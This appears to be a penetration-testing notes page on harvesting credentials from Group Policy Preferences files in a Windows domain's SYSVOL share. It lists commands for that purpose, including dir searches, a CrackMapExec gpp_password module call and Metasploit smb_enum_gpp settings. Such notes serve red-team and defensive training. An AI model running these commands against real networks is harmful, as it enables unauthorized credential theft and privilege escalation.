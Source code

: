 # Group Policy Preferences

### Description

Unsecured credentials in Group Policy Preferences (GPP) can be an easy way to obtain credentials and escalate privileges. GPP's are stored in SYSVOL on domain controllers. However, the real kicker is that any domain user can view the SYSVOL share, obtain the password, and decrypt it within seconds.

### Tactics

#### Enumerating Credentials Directly on the SYSVOL Share

`dir /s * .xml`

#### Enumerating Credentials Remotely from SYSVOL

`dir /s \\[FQN]\SYSVOL\[FQDN\ | more`

#### Enumerating Credentials using CrackMapExec

`crackmapexec smb [IP] -u [USERNAME] -p [PASSWORD] -M gpp_password`

#### Enumerating Credentials using Metasploit

1. `use auxiliary/scanner/smb/smb_enum_gpp`
2. `set rhosts [IP_Addresses]`
3. `set SMBUser [USERNAME]`
4. `set SMBPass [PASSWORD]`
